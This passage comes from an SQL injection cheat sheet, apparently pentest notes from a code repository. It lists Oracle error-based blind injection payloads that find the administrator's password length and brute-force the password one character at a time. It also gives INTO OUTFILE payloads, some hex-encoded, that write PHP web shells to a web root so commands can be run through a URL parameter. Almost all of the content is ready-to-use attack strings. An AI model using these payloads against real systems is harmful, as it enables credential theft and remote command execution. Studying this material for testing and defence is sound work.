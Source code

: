 ### 2. Check if Content Value Exists

```txt
'|| (SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'
```

If so, determine the password length

```txt
''||(SELECT CASE WHEN LENGTH(password)>2 THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'
''||(SELECT CASE WHEN LENGTH(password)>3 THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'
...
''||(SELECT CASE WHEN LENGTH(password)=8 THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'
```

Brute force password character

```txt
'||(SELECT CASE WHEN SUBSTR(password,1,1)='§a§' THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'
'||(SELECT CASE WHEN SUBSTR(password,2,1)='§a§' THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'
...
'||(SELECT CASE WHEN SUBSTR(password,8,1)='§a§' THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'
```

<br /><br />

## Writing Files

We can write arbitary code to a file as below.

```html
' SELECT '<?php echo system("id");?>' INTO OUTFILE '/var/www/html/shell.php'-- -
```

### HEX Encoded Payloads

```html
' INTO OUTFILE '/var/www/html/shell.php' LINES TERMINATED by 0x3C3F7068702073797374656D28245F4745545B22636D64225D29203F3E-- -
' INTO OUTFILE '/var/www/html/shell.php' LINES TERMINATED by 0x3C3F7068702073797374656D28245F4745545B22636D64225D29203F3E#
```

**'0x3C3F...'** is a hex encoded text meaning **"\<?php system($_GET["cmd"]) ?\>"**. After injectin, we can access to **`http://10.0.0.1/shell.php?cmd=whoami`**.

<br /><br />

## XML Filter Bypass
